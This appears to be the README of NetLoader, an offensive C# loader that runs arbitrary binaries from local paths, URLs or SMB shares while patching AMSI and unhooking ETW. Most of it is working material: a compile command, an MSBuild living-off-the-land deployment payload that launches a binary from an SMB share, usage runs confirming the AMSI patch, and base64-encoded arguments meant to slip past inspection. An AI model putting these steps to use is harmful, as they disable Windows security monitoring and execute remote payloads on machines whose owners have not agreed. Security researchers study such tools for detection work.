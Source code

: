 # NetLoader
Loads any C# binary from filepath or url, patching AMSI and unhooks ETW

** 01.10.2021 : Non-Obfuscated source code + SharpSploit to 'bypass' userland hooks when patching AMSI and ETW**

**Looking for binaries/payloads to deploy? Checkout [SharpCollection](https://github.com/Flangvik/SharpCollection)**!.  
SharpCollection contains nightly builds of C# offensive tools, fresh from their respective master branches built and released in a CDI fashion using Azure DevOps release pipelines.

# Compile

	c:\windows\Microsoft.NET\Framework\v4.0.30319\csc.exe /t:exe /out:RandomName.exe Program.cs

# Deploy via LOLBin (MSBuild)

Payload for MSBuild is in the /LOLBins folder, might push this for varius other LOLBins aswell.
Arguments have to be added into the bottom XML file when NetLoader is deployed using MSBuild

	Adding arguments to the XML payload
	    public class ClassExample : Task, ITask
	    {
	        public override bool Execute()
	        {	//Add your arguments here 
	            SoullikePrincelier.Main(new string[] { "--path", "\\smbshare\Seatbelt.exe" });
	            return true;
	        }
	    }

	For 64 bit:
	C:\Windows\Microsoft.NET\Framework64\v4.0.30319\MSBuild.exe NetLoader.xml

	For 32 bit:
	C:\Windows\Microsoft.NET\Framework\v4.0.30319\MSBuild.exe NetLoader.xml

# Usage
Deploy payload from local path or SMB share (note that NetLoader automatically detects whether the path provided is local or remote)

	PS C:\Users\Clark Kent\Desktop> .\NetLoader.exe --path Seatbelt.exe --args whoami
	[!] ~Flangvik , ~Arno0x #NetLoader
	[+] Successfully patched AMSI!
	[+] URL/PATH : Seatbelt.exe
	[+] Arguments : whoami


							%&&@@@&&
							&&&&&&&%%%,                       #&&@@@@@@%%%%%%###############%
							&%&   %&%%                        &////(((&%%%%%#%################//((((###%%%%%%%%%%%%%%%
	%%%%%%%%%%%######%%%#%%####%  &%%**#                      @////(((&%%%%%%######################(((((((((((((((((((
	#%#%%%%%%%#######%#%%#######  %&%,,,,,,,,,,,,,,,,         @////(((&%%%%%#%#####################(((((((((((((((((((
	#%#%%%%%%#####%%#%#%%#######  %%%,,,,,,  ,,.   ,,         @////(((&%%%%%%%######################(#(((#(#((((((((((
	#####%%%####################  &%%......  ...   ..         @////(((&%%%%%%%###############%######((#(#(####((((((((
	#######%##########%#########  %%%......  ...   ..         @////(((&%%%%%#########################(#(#######((#####
	###%##%%####################  &%%...............          @////(((&%%%%%%%%##############%#######(#########((#####
	#####%######################  %%%..                       @////(((&%%%%%%%################
							&%&   %%%%%      Seatbelt         %////(((&%%%%%%%%#############*
							&%%&&&%%%%%        v1.0.0         ,(((&%%%%%%%%%%%%%%%%%,
							 #%%%%##,


	ERROR: Error running command "whoami"


	[*] Completed collection in 0,008 seconds


Supports base64 inputs for those long strings that would usually break stuff! 

	PS C:\Users\Clark Kent\Desktop> .\NetLoader.exe --b64 --path U2VhdGJlbHQuZXhl --args d2hvYW1p
	[!] ~Flangvik , ~Arno0x #NetLoader
	[+] All arguments are Base64 encoded, decoding them on the fly
	[+] Successfully patched AMSI!
	[+] URL/PATH : Seatbelt.exe
	[+] Arguments : whoami


							%&&@@@&&
							&&&&&&&%%%,                       #&&@@@@@@%%%%%%###############%
							&%&   %&%%                        &////(((&%%%%%#%################//((((###%%%%%%%%%%%%%%%
	%%%%%%%%%%%######%%%#%%####%  &%%**#                      @////(((&%%%%%%######################(((((((((((((((((((
	#%#%%%%%%%#######%#%%#######  %&%,,,,,,,,,,,,,,,,         @////(((&%%%%%#%#####################(((((((((((((((((((
	#%#%%%%%%#####%%#%#%%#######  %%%,,,,,,  ,,.   ,,         @////(((&%%%%%%%######################(#(((#(#((((((((((
	#####%%%####################  &%%......  ...   ..         @////(((&%%%%%%%###############%######((#(#(####((((((((
	#######%##########%#########  %%%......  ...   ..         @////(((&%%%%%#########################(#(#######((#####
	###%##%%####################  &%%...............          @////(((&%%%%%%%%##############%#######(#########((#####
	#####%######################  %%%..                       @////(((&%%%%%%%################
							&%&   %%%%%      Seatbelt         %////(((&%%%%%%%%#############*
							&%%&&&%%%%%        v1.0.0         ,(((&%%%%%%%%%%%%%%%%%,
							 #%%%%##,


	ERROR: Error running command "whoami"


	[*] Completed collection in 0,006 seconds


# Todo
- [X]  Automate the build and release of many of the Sharp Tools so they automagically appear in ~~/Binaries~~ [SharpCollection](https://github.com/Flangvik/SharpCollection) (CDI / Azure DevOps)
- [X]  Add support for non-interactive use (input args)
- [X]  Add support to run custom modules from your own URL or SMB Share (Great for on-the-fly Implant deployment)
- [X]  Add an working MSBuild XML payload for the LOLBins lovers (Myself included)
- [X]  Update with credits and links to the github repos that ~~/Binaries~~ [SharpCollection](https://github.com/Flangvik/SharpCollection) are compiled from

# Credits
[Arno0x](https://twitter.com/Arno0x0x) for the partial rewrite that is now merged into the main repo [see gist](https://gist.github.com/Arno0x/2b223114a726be3c5e7a9cacd25053a2)
[_RastaMouse](https://twitter.com/_RastaMouse/) for the [AMSI bypass](https://github.com/rasta-mouse/AmsiScanBufferBypass/blob/master/ASBBypass/Program.cs)

